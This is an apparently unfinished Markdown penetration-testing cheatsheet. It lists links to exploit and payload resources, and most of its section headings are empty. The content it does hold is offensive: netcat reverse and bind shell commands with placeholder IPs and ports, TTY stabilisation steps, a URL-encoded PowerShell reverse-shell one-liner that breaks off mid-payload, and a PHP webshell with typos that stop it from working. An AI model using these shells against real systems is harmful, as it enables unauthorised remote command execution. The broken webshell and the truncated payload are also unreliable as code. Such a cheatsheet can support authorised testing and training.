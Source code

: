 # 2024 Penetration Testing Cheatsheet

## Other Cheatsheets/Libraries:
[Lolbas-Project](https://lolbas-project.github.io/)

[Ivan-Sincek Penetration testing cheat sheet (very detailed)](https://github.com/ivan-sincek/penetration-testing-cheat-sheet)

[GTFOBins](https://gtfobins.github.io/)

[MITRE ATT&CK](https://attack.mitre.org/)

## General Tools:

#### Others:

## Information Gathering:

## Vulnerability Scanner:

[Nessus Essential Download](https://community.tenable.com/s/article/Nessus-Essentials?language=en_US)

### Databases:

[Nist](https://community.tenable.com/s/article/Nessus-Essentials?language=en_US)

[CVEdetails](https://www.cvedetails.com/)

[Exploit-DB](https://www.exploit-db.com/)

[Rapid7](https://www.rapid7.com/db/)

## Exploitation:

### Reverse Shells useful links:
https://github.com/martinsohn/PowerShell-reverse-shell

https://www.revshells.com/

https://github.com/samratashok/nishang/tree/master

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

### Netcat:
Reverse Shell:
```
    A: nc -lnvp <port_number>

    T: nc <local_ip> <port_number> -e /bin/bash
```
Bind Shell:
```
    T: nc -lnvp <port_number> -e "cmd.exe"

    A: nc <local_ip> <port_number>
```
Shell Stabilisation:

    1. Python (sometimes need to specify python version in first cmd)
        python -c 'import pty;pty.spawn("/bin/bash")'
        export TERM=xterm
        Ctrl + Z
        stty raw -echo; fg

    2. Rlwrap
        install rlwrap first on your kali:
        sudo apt install rlwrap

        invoke this listener:
            rlwrap nc -lnvp <port_number>
            CTRL + Z
            stty raw -echo; fg

    3. Socat

        TO-Do

### Socat:

Reverse Shell (normal):

Bind Shell (normal):

Reverse Shell (encrypted):

Bind Shell (encrypted):

### Msfvenom:

### Powershell one-liner:
` powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCI `

### PHP Webshell one-liner:
`<? php echo "<pre>" . shell_exex($_GET["cmd"]) . "</pre>"; ?>`

## Linux Privilege Escalation:

## Windows Privilege Escalation:

## Passwort Cracking:

### Hashcat:

### John the Ripper:

### Hydra:

## Exfiltration:

### Server:

### Upload:

### Download:

## Persistence:

## Cleanup: